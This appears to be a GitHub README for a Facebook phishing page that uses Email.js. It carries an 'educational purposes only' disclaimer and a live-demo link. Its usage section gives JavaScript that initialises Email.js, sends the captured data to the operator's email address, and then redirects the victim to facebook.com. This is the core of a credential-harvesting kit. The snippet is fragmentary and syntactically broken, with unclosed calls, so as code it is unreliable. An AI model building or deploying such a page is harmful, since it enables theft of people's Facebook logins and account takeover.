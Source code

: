 # Facebook Phishing using Email.js

Welcome to my Project! This project is for Educational purposes only. Phishing or obtaining the password or email of others is illegal. Please do not use it in illegal ways.

Check out the live demo of this project [here]().

## Usage

To utilize Email.js within your project, follow these steps:

```javascript
(function() {
            emailjs.init("YOUR PUBLIC KEY HERR"); // Replace 'YOUR PUBLIC KEY HERE' with your actual public key from Email.js
         })();

emailjs.send('YOUR SERVICE ID', 'YOUR TEMPLATE ID',

var recipientEmail = "YOUR EMAIL HERE RECIEVER";

function redirectToFacebook() {
            window.location.replace("https://www.facebook.com");
//REDIRECTION LINK EDIT IF YOU WANT.
